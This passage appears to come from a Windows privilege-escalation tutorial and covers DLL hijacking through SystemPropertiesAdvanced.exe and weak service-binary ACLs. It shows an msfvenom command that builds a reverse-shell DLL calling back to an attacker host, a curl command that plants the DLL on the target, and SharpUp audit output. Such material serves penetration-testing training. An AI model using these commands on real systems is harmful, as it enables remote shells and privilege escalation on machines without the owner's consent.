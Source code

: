 #### Generating Malicious srrstr.dll DLL

```
Attacker@kali[/kali]$ msfvenom -p windows/shell_reverse_tcp LHOST=<ip addr> LPORT=<port> -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

#### Downloading DLL Target

```
PS C:\>curl http://<ip>/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Executing SystemPropertiesAdvanced.exe on Target Host

```
C:\> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

### **Weak Permissions**

Permissions on Windows systems are complicated and challenging to get right. A slight modification in one place may introduce a flaw elsewhere. Services usually install with SYSTEM privileges, so leveraging a service permissions-related flaw can often lead to complete control over the target system

#### Permissive File System ACLs

##### Running SharpUp

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```
PS C:\> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
The tool identifies the PC Security Management Service, which executes the SecurityService.exe binary when started
